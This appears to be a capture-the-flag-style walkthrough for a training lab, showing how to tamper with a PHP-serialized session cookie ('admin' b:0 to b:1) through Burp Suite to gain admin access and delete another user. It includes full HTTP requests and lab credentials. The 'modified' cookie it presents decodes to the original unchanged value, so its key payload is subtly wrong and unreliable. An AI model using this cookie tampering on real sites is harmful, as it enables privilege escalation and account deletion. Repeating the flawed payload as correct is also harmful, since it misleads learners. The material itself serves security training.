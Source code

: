 # Modifying Serialized Objects

## Level
``APPRENTICE``

## Goal
This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: ``wiener:peter``

## Prerequisites

1. You should have read the sections until this lab.
2. Burp Suite Community/Professional

## Start
You should configure your browser and proxy to intercept messages.

Your application looks similar to the following screenshot. Keep in mind that your products can have a different arrangement and of course, it can be different products. The lab environment will be generated automatically and that is the reason why things can be different. Click at the **Account login** link in the upper right of the window.

![Picture 1](images/1-lab/1-pic.png)

In the login form put in the username ``wiener`` and the password ``peter`` and click **Log In**.

![Picture 1](images/1-lab/2-pic.png)

Go to your proxy and look for a request that is similar to the following. Your host name is different to the host name in this request.

```http
POST /login HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Connection: close
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Cookie: session=
Upgrade-Insecure-Requests: 1

username=wiener&password=peter
```

The response to this request contains the ``Set-Cookie`` header with a session cookie. This cookie is also different in your lab.

```http
HTTP/1.1 302 Found
Location: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Set-Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d; Path=/; Secure; HttpOnly
Connection: close
Content-Length: 0
```

In the response mark the value of the ``Set-Cookie`` header completely (``Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d``) and choose in the context menu **Send to Decoder**. Open the Decoder tab and click the **Decode as** button. In the dropdown field choose **URL** click the **Decode as** next to the new window and choose  **Base64**. Your Decoder tab should look similar to the following screenshot.

![Picture 1](images/1-lab/3-pic.png)

Notice that the ``admin`` attribute contains ``b:0``, this is a boolean value and means ``false``. Change this to ``b:1``. Now, click the **Encode as** button and choose **base64** then click the **Encode as** button again and choose **URL**. Your Decoder should look like this.

![Picture 1](images/1-lab/4-pic.png)

Open the Proxy tab and look for a request like this.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
Upgrade-Insecure-Requests: 1
```

Send this request to Burp Repeater and replace the value of the ``Cookie`` header with your created input.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=%54%7a%6f%30%4f%69%4a%56%63%32%56%79%49%6a%6f%79%4f%6e%74%7a%4f%6a%67%36%49%6e%56%7a%5a%58%4a%75%59%57%31%6c%49%6a%74%7a%4f%6a%59%36%49%6e%64%70%5a%57%35%6c%63%69%49%37%63%7a%6f%31%4f%69%4a%68%5a%47%31%70%62%69%49%37%59%6a%6f%77%4f%33%30%3d
Upgrade-Insecure-Requests: 1
```

Open your browser with the lab application and hit the refresh button. Make sure to intercept traffic in your Burp Proxy. In the request replace the value of the ``Cookie`` header with your own code and send it to the application.

![Picture 1](images/1-lab/5-pic.png)

You see in the upper right of your browser window the **Admin panel** link. Click on this link, in the resulting request you have to replace the value of the ``Cookie`` header again.

![Picture 1](images/1-lab/6-pic.png)

You can delete ``carlos`` and this finishes the lab. If you click the **Delete** link you have to replace the value of the ``Cookie`` header again.

![Picture 1](images/1-lab/7-pic.png)